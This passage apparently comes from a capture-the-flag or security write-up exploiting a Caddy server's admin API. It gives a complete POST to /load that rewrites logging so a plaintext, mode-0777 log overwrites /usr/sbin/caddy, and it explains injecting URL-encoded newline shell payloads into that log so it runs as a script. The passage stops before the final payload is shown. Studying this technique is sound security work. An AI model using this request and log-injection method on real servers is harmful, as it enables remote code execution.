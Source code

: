 ### File write with arbitrary permissions and controlled content

Now we have the ability to execute our file by sh. The main problem is that the log file has a strict format. We have spent some time to analyse documentation and found a way to create valid sh scripts. The default format is JSON, but we can change it to cleartext. This request will create an executable log file with only errors because we don't need starting and info-level messages:
```http
POST /127.0.0.1:2019/load HTTP/1.1
Host: [container]
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
Content-Type: application/json
Content-Length: 1658
{ "logging": {
    "logs": {
      "default": {
        "writer": {
          "output": "file",
          "filename": "/usr/sbin/caddy",
          "mode": "0777"
        },"level": "error",
        "encoder": {
 "fields": {
            "common_log": {
              "filter": "delete"
            }
          },
          "format": "filter",
          "wrap": {
            "format": "console",
            "level_key": "severity",
            "message_key": "message",
            "time_key": "timestampSeconds"
          }
        }
      }
    }
  },"apps":{"http":{"servers":{"srv0":{"listen":[":80"],"routes":[{"handle":[{"defaults":["{http.regexp.stripHostPort.2}"],"destinations":["{targetPort}"],"handler":"map","mappings":[{"outputs":[80]}],"source":"{http.regexp.stripHostPort.2}"},{"defaults":["{http.regexp.stripHostPort.3}"],"destinations":["{targetPath}"],"handler":"map","mappings":[{"outputs":["/"]}],"source":"{http.regexp.stripHostPort.3}"}]},{"group":"group2","handle":[{"handler":"subroute","routes":[{"group":"group0","handle":[{"handler":"rewrite","uri":"{targetPath}"}]},{"handle":[{"handler":"reverse_proxy","headers":{"request":{"set":{"Host":["{http.regexp.stripHostPort.1}:{targetPort}"]},"delete":["X-Forwarded-For","Via","X-Forwarded-Host","X-Forwarded-Proto"]}},"upstreams":[{"dial":"{http.regexp.stripHostPort.1}:{targetPort}"}]}]}]}],"match":[{"path_regexp":{"name":"stripHostPort","pattern":"^\\/([^\\/]+?)(?::(\\d+))?(\\/.*)?$"}}]},{"group":"group2","handle":[{"handler":"subroute","routes":[{"handle":[{"handler":"vars","root":"/"},{"handler":"file_server","hide":["/app/Caddyfile"]}]}]}]}]}}}}}
```
Binary sh executes a file line by line, so the easiest way is to find a way to create a new line with our payload. The server decodes the URL path before writing it to the log. We can send a new line via the URL-encoded value `%0A%0D`. Also, we can add the comment `#` to the end. The only problem is that we can't use `/`, because it will break the log format. To bypass this restriction, we can use the usual pipe way: 